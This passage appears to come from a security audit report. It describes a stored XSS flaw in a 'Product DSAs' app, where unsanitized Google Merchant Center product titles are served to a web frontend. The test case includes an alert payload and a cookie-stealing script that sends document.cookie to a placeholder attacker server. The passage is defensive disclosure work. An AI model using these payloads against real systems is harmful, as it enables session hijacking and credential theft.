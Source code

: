 - **Source Code Analysis:**
  - **File: /code/app/data_gateway.py:** This file is responsible for fetching data from BigQuery, which in turn is populated from Google Merchant Center. The `load_products` function executes SQL queries (`get-products.sql`) to retrieve product information.
  - **File: /code/app/main.py:** The `execute` function orchestrates the data flow, calling `data_gateway.load_products` to fetch product data. This data is then used to generate campaign data for Google Ads Editor. The `server/server.py` (not analyzed in detail here as focus is backend) would likely serve this data via API endpoints.
  - **Absence of Sanitization:** Review of `/code/app/data_gateway.py`, `/code/app/main.py`, and `/code/server/server.py` shows no explicit sanitization or output encoding of product data before it's potentially served through the API. The code focuses on data retrieval and processing for Google Ads, not secure web rendering.

  ```
  # Visualization of potential data flow and XSS injection point:

  Google Merchant Center (GMC) --> [Attacker injects XSS payload into product data] --> Modified GMC Product Data
                                      |
                                      V
  Product DSAs Data Gateway (/code/app/data_gateway.py) --> Fetches Modified Product Data from GMC
                                      |
                                      V
  Product DSAs Backend API (/code/server/server.py) --> Serves Unsanitized Product Data via API
                                      |
                                      V
  Product DSAs Frontend Web Application --> Renders Unsanitized Product Data in User's Browser --> [XSS Payload Execution]
  ```

- **Security Test Case:**
  1. **Precondition:** Ensure you have access to a Google Merchant Center account connected to a Product DSAs instance.
  2. **Login to Google Merchant Center:** Access the Google Merchant Center interface.
  3. **Modify Product Data:** Locate a product in your GMC feed and edit its `title` field to include the following XSS payload: `<script>alert('XSS Vulnerability')</script>`. Save the changes in GMC.
  4. **Access Product DSAs Web Application:** Open the Product DSAs web application in a browser and log in as a user with access.
  5. **Navigate to Product Data Display:** Navigate to a section in the Product DSAs application where product data (including titles) is displayed. This might be a product list view, a campaign preview, or any page that shows product information fetched from GMC.
  6. **Observe for XSS:** Check if an alert box with the message "XSS Vulnerability" appears in your browser when the page loads or when you interact with elements displaying the modified product title.
  7. **Verify Cookie Stealing (Advanced):** If the alert is successful, modify the payload to attempt cookie stealing. For example, change the payload to: `<script>window.location='http://attacker-server.com/log?cookie='+document.cookie;</script>`. Replace `http://attacker-server.com/log` with a server you control to capture the cookies. Monitor your attacker server logs to see if session cookies from the Product DSAs application are successfully sent when you interact with the application's interface displaying the modified product.

### 2. Missing Input Validation for DSA Website URL
